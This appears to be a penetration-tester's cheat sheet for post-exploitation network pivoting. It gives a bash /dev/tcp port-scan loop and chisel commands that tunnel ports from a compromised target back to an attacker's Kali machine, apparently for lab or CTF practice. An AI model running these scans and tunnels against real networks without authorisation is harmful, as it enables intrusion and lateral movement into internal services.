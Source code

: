 - nmap inside machine without nmap
```bash
for port in $(seq 1 65535); do (echo scan > /dev/tcp/<target ip>/$port && echo "Open: $port") 2>/dev/null; done
```


## PIVOT with CHISEL

IN Kali:
```bash
chisel server -p 8000 -reverse -v
```

after the handshake with the chisel server:
```bash
curl localhost:8001
```

In Target:

```bash
chisel client <kali ip>:8000 R:8001:<target ip>:80 
		# This will open port 8001 of our kali to send data through the tunneling network to port 80 of the target

chisel client <kali ip>:8000 R:8001:127.0.0.1:<target ip>:80 
		# Its a bit more secure, cause we only can access though the localhost

chisel client <kali ip>:8000 R:127.0.0.1:6379:<target ip>:6379	
		# We can access the 6379 port of the target in our machine by localhost:<port we just opened>

nmap -sT -p <port> -sC -sV localhost -oA nmap/name-u-want
```


	We can visualize the open port with netstat:
```bash
netstat -alnp | grep 8001
```

## LOCAL PIVOT

In Kali:
```bash
chisel server -p 8000
```

In target:
```bash
chisel client <kali ip>:<port> 9001:127.0.0.1:8001
	# this open the 9001 of the target and tunnel with our 8001 port

chisel client <kali ip>:<port> 9001:1< another target ip >:445
	# to open a windows box through tunneling
```
